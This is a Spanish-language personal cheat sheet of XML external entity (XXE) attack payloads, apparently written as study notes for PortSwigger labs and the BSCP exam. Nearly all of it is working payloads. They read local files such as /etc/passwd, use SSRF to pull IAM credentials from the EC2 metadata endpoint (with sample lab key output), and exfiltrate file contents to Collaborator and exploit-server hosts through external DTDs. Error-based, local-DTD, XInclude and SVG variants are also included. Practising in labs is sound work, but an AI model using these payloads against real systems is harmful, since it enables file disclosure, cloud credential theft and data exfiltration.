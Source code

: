 ## ¿Qué es XML?

XML significa "lenguaje de marcado extensible". XML es un lenguaje diseñado para almacenar y transportar datos. Al igual que HTML, XML utiliza una estructura de etiquetas y datos similares a árboles. A diferencia de HTML, XML no usa etiquetas predefinidas, por lo que las etiquetas pueden recibir nombres que describan los datos. Anteriormente en la historia de la web, XML estaba de moda como un formato de transporte de datos (el "X" en "AJAX" significa "XML"). Pero su popularidad ha declinado ahora a favor del formato JSON.

#### Si ninguno de estos ataques funciona y el ataque es `detected attack` toca un SQLi injection encodeado a Hex, en la sección de SQLi lo tengo detallado. **LAB: SQLi + Bypass validation with XML Encoding `admin credentials` `storeId`**

#sqli

```xml
<!DOCTYPE test [<!ENTITY xxe SYSTEM "http://169.254.169.254/">]>
No olvidar llamar la variable &xxe; dentro de <productId>&xxe;<productId/>
```

- XXE -> Basic LFI

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE productId [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<stockCheck><productId>&test;</productId><storeId>1</storeId></stockCheck>
```

- XXE -> SSRF

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://169.254.169.254/'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

Seguir el endpoint hasta donde podemos llegar, en el lab por ejm es así: 
<!DOCTYPE foo [ <!ENTITY test SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```

- XXE -> Out of Band Interaction

```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://COLLABORATOR'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

- XXE -> Blind with out-of-band interaction

```xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://BURP-COLLAB'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck> 
```

- XXE -> Out of Band Interaction via parameter entity `external service interaction`

![burp-scan](Pasted%20image%2020250221075203.png)

```html
<?xml version="1.0" encoding="UTF-8"?>
simplemente añadimos este encima de <stockCheck>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://COLLABORATOR"> %xxe; ]>

```

- XXE -> Exfiltrate data with .DTD `server exploit` `external service interaction`

	* Puede que haya submit feedback, como distractor con *subida de imagenes* y que tales, no le pare bolas a ese care chimba distractor Felipe!!!

```js
//dejar el server exploit con /testing.dtd -->

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://COLLABORATOR?x=%file;'>">
%eval;
%exfiltrate;

//En el endpoint del lab que contenga la request con el XML añadir lo siguiente: 

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://SERVER-EXPLOIT/testing.dtd"> %xxe; ]>
<stockCheck><productId>2</productId><storeId>2</storeId></stockCheck>

//luego analizar nuestro burp collaborator para ver si nos llega algo interesante de lo que pasamos. 

//PARA EL BSCP: 
<!ENTITY % file SYSTEM "file:///home/carlos/secret">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://OASTIFY.COM/?x=%file;'>">
%eval;
%exfil;
```

- XXE -> Exfiltrate data via error messages `server exploit` `External service interaction`

```xml
//dejar el server exploit con /testing.dtd -->

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///invalid/%file;'>">
%eval;
%error;

//En el endpoint del lab que contenga la request con el XML añadir lo siguiente:

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % testingFelipe SYSTEM "http://SERVER-EXPLOIT/testing.dtd"> %testingFelipe;]>
<stockCheck><productId>2</productId><storeId>2</storeId></stockCheck>
```

- XXE -> Use XInclude in a parameter (url encode the payload) `ProductId`
	- Podemos encodear el payload a url, o no, ya depende. 

```js
?productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>

//FOR BSCP: 
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///home/carlos/secret"/></foo>

or

<xi:include xmlns:xi="http://www.w3.org/2001/XInclude" href="{filePath}" parse="text"/>

```

* XXE -> Retrieving Data by a local DTD `docbookx.dtd` 
	El archivo local puede variar, dependiendo del lab. 

*![[Pasted image 20250216124148.png]]

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
<stockCheck><productId>2</productId><storeId>2</storeId></stockCheck> //si obtenemos un 200ok perfecto. 

//Ahora si, tiramos el comando esencial para producir el error de parsing de file local y desencadene el disclosure ->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> <!ENTITY % ISOamso ' <!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> &#x25;eval; &#x25;error; '> %local_dtd; ]>
<stockCheck><productId>2</productId><storeId>2</storeId></stockCheck> 
//En este caso no necesitamos de un server externo para alojar el file ya que nos referimos a un archivo local existente en el server, basta con hacer la request directamente en el xml.
```

- XXE -> XXE on SVG

```html
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

### XXE to perform SSRF

```xml
The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://169.254.169.254/'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://169.254.169.254/latest/meta-data/iam/security-credentials/admin'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

Gives = "Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2024-01-04T10:03:06.016826989Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ZgBxuLo1qUbadDsb5agi",
  "SecretAccessKey" : "62J0cLHKUttLOoKaXvTc55LgWDRLEuv7S6jfIQSc",
  "Token" : "tyIjMrJIsrPDFGSmR9u4hqFqjzxIx7yO9h8dshFOBPTNkBpvCY0jou4GcFhxBkzetcXYr8oWTS1uWYhyyxiStHap8tv6q83xWT8dHus70bXuuZjeD6w0jTzuQy1vakLar6k2apXbrrhj3fpZVNM7XKwPVTFPg2degLdeMSPCXRWgsD5D2Uoyjd9LkFMwLsdk2hFpIGW89uvX1xY4EKTNzipFL3irC3C2Jr49uCCtvDCGCEa6iwLeySLjttI5LUS7",
  "Expiration" : "2030-01-02T10:03:06.016826989Z"
}"


<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///Windows/System32/drivers/etc/hosts" > ]>

```

* ##### Abusing XInclude

```xml 
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>

productId=<foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></foo>&storeId=1
```

* ##### XXE on svg image

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
 
 * #### xmlns load etc/passwd

```xml
<rpo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></rpo>
```

eso sería todo,  si lees esto significa que estás revisando mi repo por todo lado, bueno mucha suerte en tu examen! 